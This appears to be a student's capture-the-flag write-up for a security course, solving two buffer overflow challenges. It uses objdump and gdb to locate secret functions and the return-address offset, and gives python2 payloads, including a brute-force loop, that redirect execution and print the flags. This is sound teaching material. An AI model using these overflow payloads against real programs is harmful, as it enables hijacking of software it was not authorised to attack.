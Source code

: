 This one was similar to the previous wargame. Instead, the overflowed variable is the address of a function we want to access. Using `objdump -d whereami` (or `info function` in gdb), we find that the win() function is located at 080491a2. Hence, we can overflow the buffer of 64 bytes with `python2 -c "print('a' * 64 + '\xa2\x91\x04\x08')" | ./whereami` and get the flag COMP6841{Oh_Look_Youre_So_1337_now}.

## returnToSqrOne

objdump -d shows the two functions:

- iHateWritingCodeInMainBecauseTheStackFrameIsWeird at 08048484 (which gets called in main)
- PlzDontCallThisItsASecretFunction at 080484e7 (which never gets called)

<u>Method 1: Trial and error</u>

Experimenting with various payload sizes, I found that an input of 268 caused a segmentation fault (267 was fine). As such, replacing the 268th character of the payload with the memory address of the secret function was sufficient in overriding the return address. `python2 -c "print 'a' * 268 + '\xe7\x84\x04\x08'"| ./returnToSqrOne`

<u>Method 2: Examining the stack</u>

Experimenting with various payload sizes, I found that an input between 200 and 300 characters caused a segmentation fault. I constructed a payload which would allow me to identify which specific bytes referred to overwriting the return address of the iHateWritingCodeInMainBecauseTheStackFrameIsWeird function. Testing `python2 -c "print ('aaa'.join(chr(x) for x in range(ord('a'), ord('a') + 26)) + 'aaa') * 3" > payload.txt` and examining running the program with this payload in gdb, I observed that the eip value when issuing the `info frame` command was 0x61616170.  Accounting for little endian, byte 70 (in hex) followed by a bunch of a's referred to a decimal value of 112, the ascii value for 'p'. I replaced the 'paaa' substring in my payload with the memory address of the secret function, using `python2 -c "print ('aaa'.join(chr(x) for x in range(ord('a'), ord('a') + 26)) + 'aaa') * 2 + 'aaa'.join(chr(x) for x in range(ord('a'), ord('p'))) + 'aaa' + '\xe7\x84\x04\x08'"| ./returnToSqrOne` to get the flag COMP6841{STRINGS_WONT_ALWAYS_WORK}. 

<u>Method 3: Bruteforce</u>

Run the program with all the payloads and search for the flag in the output.

`for i in {200..300}; do python2 -c "print 'a' * $i + '\xe7\x84\x04\x08'"| ./returnToSqrOne; done;`

<u>Method 4: New</u>

gdb disas iHateWritingCodeInMainBecauseTheStackFrameIsWeird - don't need to do this

Run gdb on program, send a identifiable pattern as input (https://wiremask.eu/tools/buffer-overflow-pattern-generator/)

seg fault - examine stack frame using info registers (or $ebp) - get HEX of ascii letters at ebp

Return address is stored at ebp + 4

Ebp points to an offset of 264

Payload should thus be offset by 264 + 4 = 268 bytes





